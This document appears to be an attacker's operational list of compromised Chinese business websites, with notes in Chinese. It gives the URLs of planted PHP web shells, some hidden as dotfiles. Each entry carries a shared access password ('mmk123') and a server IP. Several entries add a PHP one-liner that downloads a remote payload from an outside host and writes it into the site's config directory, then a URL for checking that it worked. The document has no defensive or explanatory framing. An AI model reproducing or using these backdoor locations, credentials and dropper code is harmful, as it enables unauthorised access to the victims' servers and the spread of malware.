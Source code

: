 http://www.huodongtoutiao.cn/static/upload/image/20230711/m11.php |mmk123 |  47.101.35.255 | 连接不上
http://ofqf.com//help/m11.php |mmk123 |  47.101.35.255
http://www.ofzs.com/help/m11.php |mmk123 |  47.101.35.255
http://www.huodongtoutiao.cn/static/upload/image/20230814/m11.php |mmk123 |  47.101.35.255

http://www.hantinghang.com/static/upload/image/20221221/m11.php |mmk123 |www.liuzhenwu.cn -> /www/wwwroot/www.liuzhenwu.cn/images/ | 47.101.35.255
代码更新：0608 ✅
http://www.hantinghang.com/data/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://www.hantinghang.com/config/httpd.php?d=up

http://www.hantinghang.com/static/upload/image/20221221/m11.php |mmk123 |  47.101.35.255 | 连接不上 
http://ofzs.com/help/m11.php |mmk123 |  47.101.35.255
http://aliyun.ofzj.com/help/m11.php |mmk123 |  47.101.35.255
https://hxy.gzsqykj.com/uploads/10001/20230704/11.php |mmk123 |  39.99.163.186
http://www.sdrechem.com/ruien2021.php |mmk123 |  211.149.190.167
http://zbguanlong.com/dd.php |mmk123 |  211.149.190.167
http://www.sdygsteel.com/basic.php |mmk123 |  211.149.190.167
http://www.zbyinyizhiye.com/core.php |mmk123 |  211.149.190.167
http://www.sdxlsz.com/basic.php |mmk123 |  211.149.190.167
http://www.xingfuhuanbao.com/core.php |mmk123 |  211.149.190.167

http://www.dyhuayuan.cn/core.php |mmk123 |  211.149.190.167
http://chnzttrading.com/aasaa.php |mmk123 |  211.149.190.167
http://www.sdmlqp.com/basic.php |mmk123 |  211.149.190.167
http://www.zbhzjc.com/aasaa.php |mmk123 |  211.149.190.167
http://btqgy.com/.bhbdlbl.php |mmk123 |  211.149.190.167
http://www.dyxqmj.com/basic.php |mmk123 |  211.149.190.167
http://www.zbjrbw.com/configs.php |mmk123 |  No ID found
http://guoyinjx.com/core.php |mmk123 |  211.149.190.167
http://sddayunxx.com/indexbak.php |mmk123 |  211.149.190.167
http://rdtce.com/core.php |mmk123 |  211.149.190.167
http://sdmlqp.com/aasaa.php |mmk123 |  211.149.190.167
http://dayunxx.com/.xsZml.php |mmk123 |  211.149.190.167
http://zbguanlong.com/.zlhpnpr.php |mmk123 |  211.149.190.167
http://zbyinyizhiye.com/common.php |mmk123 |  211.149.190.167
http://sdrechem.com/core.php |mmk123 |  211.149.190.167
http://www.sdygsteel.com/info.php |mmk123 |  211.149.190.167
http://ruience.com/core/lang/zh-cn.php |mmk123 |  211.149.190.167

https://www.crusher-world.com/Upload/_thumbs/Files/11.php |mmk123 |  150.109.70.87
代码更新：0608 ✅
https://www.crusher-world.com/Install/httpd.php
<?php file_put_contents("../Data/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
https://www.crusher-world.com/Data/httpd.php?d=up

https://shredder-world.com/diy/22.php |mmk123 |  150.109.70.87
代码更新：0608 ✅
https://shredder-world.com/down/httpd.php
<?php file_put_contents("../job/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
https://shredder-world.com/job/httpd.php?d=up
